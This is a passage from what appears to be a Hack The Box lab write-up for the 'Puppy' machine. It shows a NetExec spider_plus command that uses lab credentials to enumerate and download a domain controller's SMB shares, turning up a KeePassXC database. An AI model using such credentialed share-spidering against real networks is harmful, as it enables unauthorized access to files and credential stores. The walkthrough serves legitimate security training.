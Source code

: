 We used the `spider_plus` module of `NetExec` to download the content of the share.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares -M spider_plus -o DOWNLOAD_FLAG=true 
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SPIDER_PLUS 10.129.184.6    445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.184.6    445    DC               [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.129.184.6    445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.184.6    445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.184.6    445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.184.6    445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.184.6    445    DC               [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.129.184.6    445    DC               [*] Enumerated shares
SMB         10.129.184.6    445    DC               Share           Permissions     Remark
SMB         10.129.184.6    445    DC               -----           -----------     ------
SMB         10.129.184.6    445    DC               ADMIN$                          Remote Admin
SMB         10.129.184.6    445    DC               C$                              Default share
SMB         10.129.184.6    445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.184.6    445    DC               IPC$            READ            Remote IPC
SMB         10.129.184.6    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.184.6    445    DC               SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.129.184.6    445    DC               [-] Failed to download file "UltFsQYRGg.txt". Error: 'RemoteFile' object has no attribute 'get_filesize'
SPIDER_PLUS 10.129.184.6    445    DC               [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.129.184.6.json".
SPIDER_PLUS 10.129.184.6    445    DC               [*] SMB Shares:           6 (ADMIN$, C$, DEV, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.184.6    445    DC               [*] SMB Readable Shares:  4 (DEV, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.184.6    445    DC               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.184.6    445    DC               [*] Total folders found:  28
SPIDER_PLUS 10.129.184.6    445    DC               [*] Total files found:    12
SPIDER_PLUS 10.129.184.6    445    DC               [*] Files filtered:       1
SPIDER_PLUS 10.129.184.6    445    DC               [*] File size average:    2.73 MB
SPIDER_PLUS 10.129.184.6    445    DC               [*] File size min:        0 B
SPIDER_PLUS 10.129.184.6    445    DC               [*] File size max:        32.8 MB
SPIDER_PLUS 10.129.184.6    445    DC               [*] File unique exts:     7 (.ini, .txt, .msi, .cmtx, .kdbx, .pol, .inf)
SPIDER_PLUS 10.129.184.6    445    DC               [*] Downloads successful: 10
SPIDER_PLUS 10.129.184.6    445    DC               [*] Downloads failed:     1
```

It only contained a `KeePassXC` database called `recovery.kdbx`.
